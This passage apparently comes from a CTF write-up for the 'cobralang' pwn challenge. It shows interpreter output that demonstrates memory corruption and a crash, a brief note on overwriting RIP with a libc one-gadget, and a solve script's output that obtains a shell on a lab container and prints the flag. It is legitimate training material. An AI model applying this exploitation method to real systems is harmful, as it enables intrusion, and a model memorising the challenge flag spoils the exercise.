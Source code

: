 ```
[4] -> (0/0)  = ''
[5] -> (0/0)  = ''
[6] -> (0/0)  = ''
[7] -> (0/0)  = ''
[8] -> (0/0)  = ''
[9] -> (0/0)  = ''
[10] -> (0/0)  = ''
[11] -> (0/0)  = ''
[12] -> (0/0)  = ''
[13] -> (0/0)  = ''
[14] -> (0/0)  = ''
[15] -> (0/0)  = ''
>>> a0.split(i)
>>> var_dump
...
>>> a0000 = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMN"
>>> var_dump
[0] -> (38/38) a = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKL'
[1] -> (8/8) a0 = 'abcdefgh'
[2] -> (24/24) a00 = '\x02\x00\x00\x00\x06\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x90\u\x11\x04\x7f\x00\x00'
[3] -> (40/40) a000 = '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
[4] -> (45/40) a0000 = 'ar_dump\x00\x00\x00\x00\x00\x00\x00opqrstuvwxyzABCDEFGHIJKLMNa0000'
[5] -> (0/0)  = ''
[6] -> (0/0)  = ''
[7] -> (0/0)  = ''
[8] -> (0/0)  = ''
[9] -> (0/0)  = ''
[10] -> (0/0)  = ''
[11] -> (0/0)  = ''
[12] -> (0/0)  = ''
[13] -> (0/0)  = ''
[14] -> (0/0)  = ''
[15] -> (0/0)  = ''
>>> quit
Segmentation fault (core dumped)
```

To get the flag, one must calculate the number of iterations needed and the appropriate offset after which the RIP value is simply overriden with a one gadget:
```
$ python3 solve.py 
[+] Opening connection to 172.17.0.2 on port 9000: Done
[*] '/home/vm/Documents/ib-ctf-2023/pwn/cobralang/attachments/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat flag.txt
ibctf{y0u_4r3-4-d1z3As3-4nd_1_4m-TH3_kur33e}
```
